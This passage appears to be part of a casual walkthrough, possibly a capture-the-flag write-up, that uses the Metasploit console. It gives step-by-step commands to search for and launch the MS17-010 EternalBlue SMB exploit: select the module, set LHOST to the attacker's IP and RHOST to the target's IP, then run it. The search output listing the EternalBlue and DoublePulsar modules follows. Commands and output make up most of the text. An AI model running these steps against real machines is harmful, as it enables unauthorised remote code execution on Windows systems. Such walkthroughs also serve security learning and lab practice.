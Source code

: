   | |________________|__|)__| |    |     __||_)     |     |
  | |(@)(@)"""**|(@)(@)**|(@) |    "       ||       "     |
  |  = = = = = = = = = = = =  |     '--------------'      |
  +---------------------------+---------------------------+


       =[ metasploit v6.1.39-dev                          ]
+ -- --=[ 2214 exploits - 1171 auxiliary - 396 post       ]
+ -- --=[ 616 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: When in a module, use back to go 
back to the top level prompt

msf6 > 
```
cool, now we'll be typing these commands in

```
search ms17-010
use 0
options
set LHOST <Your IP>
set RHOST <Target's IP>
options
run
```

```
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce
